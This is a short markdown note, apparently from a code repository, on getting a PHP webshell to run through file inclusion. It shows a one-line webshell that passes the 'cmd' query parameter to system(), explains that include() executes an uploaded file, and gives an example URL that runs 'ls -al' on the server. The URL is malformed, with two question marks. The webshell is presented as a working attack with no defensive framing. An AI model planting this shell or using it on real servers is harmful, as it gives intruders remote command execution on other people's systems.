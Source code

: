 # php webshell by include
### 1) summary
Executes the file passed as a parameter of the include function.

When the php file is delivered, it is executed.
```
include($uploaded_file_path);
```

### 2) code
When the following code is executed by the include function, 
```php
<?php
    echo system($_GET["cmd"]);
?>
```
you can execute a Linux command by passing cmd as a query parameter.
```
https://example.com?file=asfdbwr?cmd=ls -al;
```